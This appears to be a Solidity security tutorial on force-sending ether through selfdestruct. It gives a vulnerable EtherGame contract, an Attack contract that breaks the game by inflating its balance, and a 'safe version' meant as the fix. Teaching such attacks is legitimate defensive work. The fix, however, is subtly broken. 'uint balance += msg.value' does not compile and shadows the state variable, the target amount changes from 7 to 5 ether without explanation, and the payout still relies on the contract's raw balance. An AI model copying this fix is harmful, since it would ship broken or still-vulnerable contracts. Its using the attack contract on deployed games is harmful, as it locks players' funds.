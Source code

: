 ## Forcefully sending ether to a smart contract with self destruct

The selfdestruct(address) function removes all bytecode from the contract address, deletes the contract from the blockchain and sends all ether stored to the specified address. If this specified address is also a contract, no functions (including the fallback) get called.

In other words, an attacker can create a contract with a selfdestruct() function, send ether to it, call selfdestruct(target) and force ether to be sent to a target.

# Let's see how this attack can look like. We create a simple smart contract.
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

In the above example 7 players deposits 1 eth each into etherGame contract, the last player to deposit claims all the 7 ETH. 
The attacker can send  5 ether to the game contract using selfdestuct. This will break the game and No one can become the winner.
The Attack will force the balance of EtherGame to be greater than or equal to 7 ether.
Now no one can deposit and the winner cannot be set.

# How to prevent forcefully sending ether
This vulnerability arises from the misuse of this.balance. Your contract should avoid being dependent on the exact values of the balance of the contract because it can be artificially manipulated.

If exact values of deposited ether are required, a self-defined variable should be used that gets incremented in payable functions, to safely track the deposited ether. This can prevent your contract to be influenced by the forced ether sent via a selfdestruct() call.

# Let's see how the safe version of the contract looks like.
contract EtherGame {
    uint public targetAmount = 5 ether;
    address public winner;
    uint public balance;

    function play() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance += msg.value;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
